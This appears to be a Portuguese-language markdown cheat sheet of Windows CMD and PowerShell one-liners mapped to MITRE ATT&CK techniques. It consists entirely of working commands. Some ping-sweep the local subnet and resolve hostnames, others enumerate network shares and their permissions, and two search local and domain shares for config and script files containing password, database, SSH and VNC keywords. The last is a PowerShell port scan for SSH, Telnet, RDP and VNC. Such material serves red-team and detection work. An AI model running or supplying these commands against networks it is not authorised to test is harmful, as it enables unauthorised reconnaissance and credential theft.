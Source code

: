 - Listar Hostnames [[`Discovery:T1018:Remote System Discovery`](https://attack.mitre.org/techniques/T1018/)] (`CMD`)
```cmd
FOR /F "TOKENS=1,2" %A IN ('"nslookup %userdnsdomain% | findstr /I "Address""') DO @( FOR /F "tokens=1,2,3 delims=." %X in ('echo %B') DO @(FOR /L %i IN (1,1,254) DO @(echo Address: %X.%Y.%Z.%i && ping -w 1 -n 1 %X.%Y.%Z.%i  >NUL && nslookup %X.%Y.%Z.%i 2>NUL | findstr /I "Nome: Name:" 2>NUL)))
```

- Lista pastas compartilhadas [__Local__] (`CMD`)
  - Lista permissoes das pastas compartilhadas (LOCAL) [[`Discovery:T1083:File and Directory Discovery`](https://attack.mitre.org/techniques/T1083/)]
    ```cmd
    for /F "tokens=1,2" %A in ('"net view localhost 2>NUL | findstr /i disc"') DO @(icacls "\\localhost\%A" 2>NUL)
    ```
  - Busca arquivos com palavras especficas (LOCAL) [[`Credential-access:T1552.001:Credentials In Files`](https://attack.mitre.org/techniques/T1552/001/)]
    ```cmd
    for /F "tokens=1,2" %A in ('"net view localhost 2>NUL | findstr /i disc"') DO @(for /F %B IN ('"dir /S /B "\\localhost\%A" 2>NUL | findstr ".xml .bat .ps .cmd .conf .config .ini .json .txt .yml .sql""') DO @(type "%B" 2>NUL | findstr /I "passw mysql oracle postgres sql senha username ftp ssh scp winscp vnc login" 2>NUL))
    ```

- Lista pastas compartilhadas [__Remoto__] [__DNSDOMAIN__] (`CMD`)

  - Lista permissoes das pastas compartilhadas [__DNSDOMAIN__] [[`Discovery:T1135:Network Share Discovery`](https://attack.mitre.org/techniques/T1135/)]
    ```cmd
    FOR /F "tokens=1,2" %A in ('"net view %USERDNSDOMAIN% 2>NUL | findstr /i disc"') DO @(icacls "\\%USERDNSDOMAIN%\%A" 2>NUL)
    ```
  - Busca arquivos com palavras especficas [__DNSDOMAIN__] [[`Credential-access:T1552.001:Credentials In Files`](https://attack.mitre.org/techniques/T1552/001/)]
    ```cmd
    for /F "tokens=1,2" %A in ('"net view %USERDNSDOMAIN% 2>NUL | findstr /i disc"') DO @(for /F %B IN ('"dir /S /B "\\%USERDNSDOMAIN%\%A" 2>NUL | findstr ".xml .bat .ps .cmd .conf .config .ini .json .txt .yml .sql""') DO @(echo "%B" 2>NUL && type "%B" 2>NUL | findstr /I "passw mysql oracle postgres sql senha username ftp ssh scp winscp vnc login" 2>NUL))
    ```

- Lista pastas compartilhadas [__Remoto__][__DNSDOMAIN__][__LAN/24__] [[`Discovery:T1135:Network Share Discovery`](https://attack.mitre.org/techniques/T1135/)] (`CMD`)

```cmd
FOR /F "TOKENS=1,2" %A IN ('"nslookup %userdnsdomain% 2>NUL | findstr /I "Addresses:""') DO @(FOR /F "tokens=1,2,3 delims=." %X in ('"echo %B 2>NUL"') DO @(FOR /L %i IN (1,1,254) DO @(ping -w 1 -n 1 %X.%Y.%Z.%i 2>NUL | findstr /I "TTL=12" 1>NUL 2>NUL && echo Address: %X.%Y.%Z.%i && net view %X.%Y.%Z.%i 2>NUL | findstr /I "disc" 2>NUL)))
```

- Teste de Port Scan na rede do host target [[`Discovery:T1046:Network Service Discovery`](https://attack.mitre.org/techniques/T1046/)] (`powershell`)

```powershell
$IPv4=((Get-WmiObject Win32_NetworkAdapterConfiguration | Where-Object { $_.IPAddress -ne $null }).IPAddress[0] -split '\.')[0..2] -join '.';1..254 | % {"$IPv4.$_"} | % {$ip = $_; 22,23,3389,5900 | % {$port = $_; $socket = New-Object Net.Sockets.TcpClient; $wait = $socket.BeginConnect($ip, $port, $null, $null); $result = $wait.AsyncWaitHandle.WaitOne(100, $false); if ($result -eq $true) {Write-Host "$ip, $port, Open";$socket.EndConnect($wait)}; $socket.Close()}}
```
